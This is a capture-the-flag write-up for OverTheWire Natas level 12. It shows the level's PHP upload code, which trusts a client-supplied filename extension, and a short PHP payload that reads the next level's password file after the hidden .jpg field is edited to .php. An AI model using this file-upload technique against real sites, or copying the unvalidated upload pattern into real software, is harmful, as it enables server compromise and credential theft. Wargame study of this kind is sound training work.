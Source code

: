 # Natas 12 -> 13

```
http://natas12.natas.labs.overthewire.org
```

```
Username: natas12
```

We have a form to upload a JPEG file with max. size of 1KB. Also the source code.

```php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } 
```

After a quick glance, there's no sign that it verifies that we're uploadin an actual JPEG file.  
Let's see the value of `getRandomString()` by looking at the source of the page with `firebug` or `dev-tools`.  

We need to read `/etc/natas_webpass/natas13`, so let's try uploading a PHP file with something that reads files: 

```php
<?php
var_dump(file_get_contents('/etc/natas_webpass/natas13'));
```

Before uploading it, see that field with `getRandomString()`? It adds a `.jpg` extension, use `firebug` or `dev-tools` to fix that :-)


* php
* file_get_contents
